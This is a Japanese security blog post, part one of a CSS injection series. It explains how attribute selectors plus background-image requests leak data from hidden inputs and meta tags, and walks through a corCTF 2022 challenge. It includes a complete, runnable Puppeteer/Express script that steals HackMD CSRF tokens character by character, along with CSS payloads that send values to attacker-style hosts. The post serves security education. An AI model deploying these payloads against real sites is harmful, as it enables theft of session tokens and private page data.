






# CSSだけで攻撃できる？CSSインジェクション（前編）

これまでのブログ記事では、プロトタイプ汚染やDOM clobberingなど、JavaScriptの実行を操作して予期しない結果を生み出すさまざまな攻撃を見てきました。言い換えれば、これらの攻撃によって引き起こされる影響は最終的にJavaScriptが原因です。

さて、JavaScriptを必要とせずに影響を与えることができるいくつかの攻撃手法を探ってみましょう。最初に説明するのはCSSインジェクションです。

フロントエンド開発の経験があるなら、CSSが強力なツールであることをすでに知っているかもしれません。例えば、純粋なCSSで次のようなものを作成できます。

1. [三目並べ](https://codepen.io/alvaromontoro/pen/vwjBqz)
2. [弾幕ゲーム](https://codepen.io/i0z/pen/AwYbda)
3. [3Dゲーム](https://garethheyes.co.uk/)

はい、その通りです。これらの例は、JavaScriptを1行も使用せずに、純粋なCSSとHTMLで作成されています。CSSは確かに魔法のようです。

しかし、CSSはどのように攻撃手段として使用できるのでしょうか？引き続き探求していきましょう。

## CSSインジェクションとは？

名前が示すように、CSSインジェクションとは、ウェブページに任意のCSS構文を挿入できること、またはより具体的に言えば、`<style>` タグを使用できることを指します。なぜそのような状況が存在するのか疑問に思うかもしれません。

私の意見では、一般的なシナリオは2つあります。1つ目は、ウェブサイトが多くのタグをフィルタリングするが、`<style>` タグを見落とし、無害と見なしている場合です。例えば、サニタイズによく使用されるDOMPurifyは、デフォルトでさまざまな危険なタグをフィルタリングし、`<h1>` や `<p>` のような安全なタグのみを残します。しかし、`<style>` はデフォルトの安全なタグのリストに含まれています。したがって、特定のパラメータが設定されていない場合、`<style>` はフィルタリングされず、攻撃者がCSSを注入できるようになります。

2番目のシナリオは、HTMLを注入できるが、コンテンツセキュリティポリシー（CSP）のためにJavaScriptの実行が妨げられる場合です。この場合、JavaScriptを実行できないため、攻撃者は悪意のあるアクションを実行するためにCSSを使用することに頼ります。

では、CSSインジェクションで何が達成できるのでしょうか？CSSはウェブページのスタイル設定にのみ使用されるのではないでしょうか？ウェブページの背景色を変更することも攻撃手法と見なされるのでしょうか？

## CSSでデータを盗む

CSSは主にウェブページのスタイル設定に使用されますが、2つの機能と組み合わせることでデータを盗むことができます。

最初の機能は属性セレクターです。

CSSには、特定の条件を満たす属性を持つ要素をターゲットにできるセレクターがいくつかあります。例えば、`input[value^=a]` は、値が `a` で始まる要素を選択します。

同様のセレクターには次のようなものがあります。

1. `input[value^=a]` （プレフィックス）値が `a` で始まる要素を選択します。
2. `input[value$=a]` （サフィックス）値が `a` で終わる要素を選択します。
3. `input[value*=a]` （含む）値に `a` が含まれる要素を選択します。

2番目の機能は、CSSを使用してリクエストを行う機能です。例えば、サーバーから背景画像を読み込むことは、本質的にリクエストを送信することです。

ウェブページに `<input name="secret" value="abc123">` というコンテンツがあるとします。CSSを注入できる場合、次のように記述できます。

```css
input[name="secret"][value^="a"] {
  background: url(https://myserver.com?q=a)
}

input[name="secret"][value^="b"] {
  background: url(https://myserver.com?q=b)
}

input[name="secret"][value^="c"] {
  background: url(https://myserver.com?q=c)
}

//....

input[name="secret"][value^="z"] {
  background: url(https://myserver.com?q=z)
}
```

何が起こるでしょうか？

最初のルールが対応する要素を正常にターゲットにするため、inputの背景はサーバーからの画像になり、ブラウザは `https://myserver.com?q=a` にリクエストを送信します。

したがって、サーバーがこのリクエストを受信すると、「inputのvalue属性の最初の文字はaである」ことがわかり、最初の文字を正常に盗むことができます。

これがCSSがデータを盗むために使用できる理由です。属性セレクターと画像の読み込み機能と組み合わせることで、サーバーはウェブページ上の特定の要素の属性値を知ることができます。

CSSが属性値を盗むことができることを確認したので、次に2つの質問に対処しましょう。

1. 何が盗めるのか？
2. 最初の文字を盗むことしか示していませんでしたが、2番目の文字を盗むにはどうすればよいですか？

最初の質問から始めましょう。何が盗めるのでしょうか？通常、機密データですよね？

最も一般的なターゲットはCSRFトークンです。CSRFについて知らない場合は、今後の記事で説明します。

簡単に言うと、CSRFトークンが盗まれた場合、CSRF攻撃につながる可能性があります。とにかく、このトークンは重要だと考えてください。通常、CSRFトークンは次のような隠し入力フィールドに保存されます。

```html
<form action="/action">
  <input type="hidden" name="csrf-token" value="abc123">
  <input name="username">
  <input type="submit">
</form>
```

中のデータをどのように盗むことができるでしょうか？

## 隠し入力を盗む

隠し入力の場合、以前の方法では機能しません。

```css
input[name="csrf-token"][value^="a"] {
  background: url(https://example.com?q=a)
}
```

inputのタイプがhiddenであるため、この要素は画面に表示されません。表示されないため、ブラウザは背景画像を読み込む必要がなく、サーバーはリクエストを受信しません。この制限は非常に厳格で、`display:block !important;` を使用しても上書きできません。

どうすればいいでしょうか？心配ありません、別のセレクターオプションがあります。このように：

```css
input[name="csrf-token"][value^="a"] + input {
  background: url(https://example.com?q=a)
}
```

最後に `+ input` が追加されています。このプラス記号は別のセレクターで、「後に続く要素を選択する」という意味です。したがって、組み合わせると、セレクターは「nameがcsrf-tokenで、valueがaで始まるinputの、後に続くinputを選択する」という意味になります。つまり、`<input name="username">` です。

したがって、背景画像は実際には別の要素によって読み込まれ、その要素には `type=hidden` がないため、画像は正常に読み込まれます。

しかし、その後に他の要素がない場合はどうでしょうか？このように：

```html
<form action="/action">
  <input name="username">
  <input type="submit">
  <input type="hidden" name="csrf-token" value="abc123">
</form>
```

このケースでは、以前は本当に不可能でした。なぜなら、CSSには「前の要素を選択する」セレクターがなかったため、本当にどうすることもできませんでした。

しかし、今は違います。[:has](https://developer.mozilla.org/en-US/docs/Web/CSS/:has)があるからです。このセレクターは、「特定の条件を満たす要素の下にある要素」を選択できます。このように：

```css
form:has(input[name="csrf-token"][value^="a"]){
  background: url(https://example.com?q=a)
}
```

これは、「（その条件を満たすinput）の下にあるformを選択する」という意味です。したがって、最終的に背景を読み込むのはformであり、隠しinputではありません。この `:has` セレクターは比較的新しく、2022年8月末にリリースされたChrome 105から正式にサポートされています。現在、Firefoxの安定版のみがまだサポートしていません。詳細については、以下を参照してください：[caniuse](https://caniuse.com/css-has)



`:has` があれば、基本的に無敵です。背景を変更する親要素を指定できるため、好きなように選択できます。

## metaを盗む

データを隠し入力に入れる以外に、一部のウェブサイトではデータを `<meta>` タグに入れることもあります。例えば、`<meta name="csrf-token" content="abc123">` のように。metaタグも不可視要素です。どのように盗むことができるでしょうか？

まず、前の段落の最後に述べたように、`has` は確実に盗む方法です。このように盗むことができます。

```css
html:has(meta[name="csrf-token"][content^="a"]) {
  background: url(https://example.com?q=a);
}
```

しかし、それ以外にも盗む方法はあります。

`<meta>` タグも不可視ですが、隠し入力とは異なり、CSSを使用してこの要素を可視にすることができます。

```css
meta {
  display: block;  
}

meta[name="csrf-token"][content^="a"] {
  background: url(https://example.com?q=a);
}
```



しかし、これだけでは十分ではありません。リクエストがまだ送信されていないことに気づくでしょう。これは、`<meta>` が `<head>` の下にあり、`<head>` にはデフォルトで `display:none` プロパティがあるためです。したがって、`<meta>` を「見えるようにする」ためには、`<head>` も特別に設定する必要があります。

```css
head, meta {
  display: block;  
}

meta[name="csrf-token"][content^="a"] {
  background: url(https://example.com?q=a);
}
```

このように記述すると、ブラウザがリクエストを送信するのがわかります。ただし、画面には何も表示されません。なぜなら、結局のところ、`content` は属性であり、HTMLのテキストノードではないため、画面には表示されません。しかし、`meta` 要素自体は実際には可視であり、これがリクエストが送信される理由です。



画面にコンテンツを表示したい場合は、擬似要素と `attr` を使用することで実現できます。

```css
meta:before {
    content: attr(content);
}
```

すると、metaタグ内のコンテンツが画面に表示されます。

最後に、実際の事例を見てみましょう。

## HackMDのデータを盗む

HackMDのCSRFトークンは2箇所に配置されています。1つは隠し入力、もう1つはmetaタグで、内容は次のとおりです。

```html
<meta name="csrf-token" content="h1AZ81qI-ns9b34FbasTXUq7a7_PPH8zy3RI">
```

そして、HackMDは実際には `<style>` の使用をサポートしており、このタグはフィルタリングされないため、任意のスタイルを記述できます。関連するCSPは次のとおりです。

```
img-src * data:;
style-src 'self' 'unsafe-inline' https://assets-cdn.github.com https://github.githubassets.com https://assets.hackmd.io https://www.google.com https://fonts.gstatic.com https://*.disquscdn.com;
font-src 'self' data: https://public.slidesharecdn.com https://assets.hackmd.io https://*.disquscdn.com https://script.hotjar.com; 
```

ご覧のように、`unsafe-inline` が許可されているため、任意のCSSを挿入できます。

CSSを挿入できることを確認したら、データの盗難の準備を開始できます。以前に回答していない質問がありました。「最初の文字以降の文字をどのように盗むか？」です。まず、HackMDを例に回答します。

まず、CSRFトークンは通常、ページを更新すると変更されるため、ページを更新することはできません。幸いなことに、HackMDはリアルタイム更新をサポートしています。コンテンツが変更されると、他のクライアントの画面にすぐに反映されます。したがって、「更新せずにスタイルを更新する」ことが可能です。プロセスは次のとおりです。

1. 最初の文字を盗むためのスタイルを準備し、HackMDに挿入します。
2. 被害者がページを開きます。
3. サーバーは最初の文字のリクエストを受信します。
4. サーバーはHackMDのコンテンツを更新し、2番目の文字を盗むためのペイロードに置き換えます。
5. 被害者のページはリアルタイムで更新され、新しいスタイルが読み込まれます。
6. サーバーは2番目の文字のリクエストを受信します。
7. すべての文字が盗まれるまでこのプロセスを繰り返します。

フローの簡単な図は次のとおりです。



コードは次のとおりです。

```js
const puppeteer = require('puppeteer');
const express = require('express')

const sleep = ms => new Promise(resolve => setTimeout(resolve, ms));

// HackMDドキュメントを作成し、誰でも表示/編集できるようにします
const noteUrl = 'https://hackmd.io/1awd-Hg82fekACbL_ode3aasf'
const host = 'http://localhost:3000'
const baseUrl = host + '/extract?q='
const port = process.env.PORT || 3000

;(async function() {
  const app = express()
  const browser = await puppeteer.launch({
    headless: true
  });
  const page = await browser.newPage();
  await page.setViewport({ width: 1280, height: 800 })
  await page.setRequestInterception(true);

  page.on('request', request => {
    const url = request.url()
    // 自己へのリクエストをキャンセルします
    if (url.includes(baseUrl)) {
      request.abort()
    } else {
      request.continue()
    }
  });
  app.listen(port, () => {
    console.log(`Listening at http://localhost:${port}`)
    console.log('Waiting for server to get ready...')
    startExploit(app, page)
  })
})()

async function startExploit(app, page) {
  let currentToken = ''
  await page.goto(noteUrl + '?edit');
  
  // @see: https://stackoverflow.com/questions/51857070/puppeteer-in-nodejs-reports-error-node-is-either-not-visible-or-not-an-htmlele
  await page.addStyleTag({ content: "{scroll-behavior: auto !important;}" });
  const initialPayload = generateCss()
  await updateCssPayload(page, initialPayload)
  console.log(`Server is ready, you can open ${noteUrl}?view on the browser`)

  app.get('/extract', (req, res) => {
    const query = req.query.q
    if (!query) return res.end()

    console.log(`query: ${query}, progress: ${query.length}/36`)
    currentToken = query
    if (query.length === 36) {
      console.log('over')
      return
    }
    const payload = generateCss(currentToken)
    updateCssPayload(page, payload)
    res.end()

  })
}

async function updateCssPayload(page, payload) {
  await sleep(300)
  await page.click('.CodeMirror-line')
  await page.keyboard.down('Meta');
  await page.keyboard.press('A');
  await page.keyboard.up('Meta');
  await page.keyboard.press('Backspace');
  await sleep(300)
  await page.keyboard.sendCharacter(payload)
  console.log('Updated css payload, waiting for next request')
}

function generateCss(prefix = "") {
  const csrfTokenChars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ-_'.split('')
  return `
${prefix}
<style>
    head, meta {
        display: block;
    }
    ${
      csrfTokenChars.map(char => `
        meta[name="csrf-token"][content^="${prefix + char}"] {
            background: url(${baseUrl}${prefix + char})
        }
      `).join('\n')
    }
</style>
  `
}
```

Node.jsで直接実行できます。実行後、ブラウザで対応するドキュメントを開くと、ターミナルでリークの進行状況を確認できます。

しかし、HackMDのCSRFトークンを盗むことができたとしても、依然としてCSRFを実行することはできません。なぜなら、HackMDはサーバーでオリジンやリファラーなどの他のHTTPリクエストヘッダーをチェックし、リクエストが正当なソースから来ていることを確認しているからです。

## CSSインジェクションと他の脆弱性の組み合わせ技

サイバーセキュリティの世界では、創造性と想像力が不可欠です。時には、いくつかの小さな脆弱性を組み合わせることで、深刻度を高めることができます。今回は、CSSインジェクションと別の脆弱性を組み合わせたCTFチャレンジを共有したいと思います。これは非常に興味深いと思います。



攻撃対象はReactで書かれたブログウェブサイトであり、目標は `/home` ページのデータを正常に盗むことです。記事を追加でき、記事の内容は次の方法でレンダリングされます。

```html
<div dangerouslySetInnerHTML={{ __html: body }}></div>
```

以前述べたように、最新のフロントエンドフレームワークは出力を自動的にエンコードするため、XSSの問題を心配する必要はありません。しかし、Reactの `dangerouslySetInnerHTML` は「大丈夫、直接 `innerHTML` を設定するだけ」という意味なので、ここに任意のHTMLを挿入できます。しかし、問題はCSPルールです：`script-src 'self'; object-src 'none'; base-uri 'none';`。

これらのルールは非常に厳格です。`script` は同一オリジンからのみ読み込むことができ、スタイルなどの他の要素には制限がありません。明らかに、CSSインジェクションを使用してページからデータを盗むことができます。

しかし、別の問題があります。記事のURLは `/posts/:id` であり、盗みたいデータは `/home` ページにあります。CSSは他のページに影響を与えることはできません。iframeを使用して `/home` ページを埋め込むことができたとしても、そのページにスタイルを注入することはできません。

この場合、どうすればいいでしょうか？

この時点で、iframe要素とsrcdocを使用して新しいページを作成し、そのiframe内でReactアプリを再度レンダリングできるというトリックを思いつきました。

```html
<iframe srcdoc="
  iframe /home below<br>
  <iframe name=defaultView src=/home></iframe><br>
  iframe /home above<br>
  <style>
    a[href^="/post/0"] {
      background: url(//myserver?c=0);
    }

    a[href^="/post/1"] {
      background: url(//myserver?c=1);
    }
  
  </style>

  react app below<br>
  <div id=root></div>
  <script type=module crossorigin src=/assets/index.7352e15a.js></script>
" height="1000px" width="500px"></iframe>
```

インターフェースは次のようになります。



iframeのsrcdoc内でReactアプリを再レンダリングし、DOM clobberingを介してこのReactアプリに別のページをレンダリングさせることで、CSSインジェクションを使用してデータを盗み、目的を達成できます。

このチャレンジはcorCTF 2022のmodernblogチャレンジからのもので、@strellic氏によって作成されました。詳細については、以前の詳しい解説を参照してください：[corCTF 2022 writeup - modernblog](https://blog.huli.tw/2022/08/21/en/corctf-2022-modern-blog-writeup/)

## まとめ

この記事では、CSSを使用してデータを盗む原理を見てきました。それは、「属性セレクター」と「画像の読み込み」という2つの単純な機能を組み合わせることに尽きます。また、隠し入力とmetaタグからデータを盗む方法を実証し、HackMDを実例として説明しました。

しかし、まだ解決されていない問題がいくつかあります。例えば：

1. HackMDはリアルタイムコンテンツ同期により、ページを更新せずに新しいスタイルを読み込むことができます。他のウェブサイトはどうでしょうか？最初の文字以降の文字をどのように盗むことができるでしょうか？
2. 一度に1文字しか盗めない場合、時間がかかりすぎるのではないでしょうか？これは実際に実行可能でしょうか？
3. 属性以外のものを盗む方法はありますか？例えば、ページ上のテキストコンテンツやJavaScriptコードなどです。
4. この攻撃手法に対する防御メカニズムは何でしょうか？

これらの質問は、次の記事で回答します。
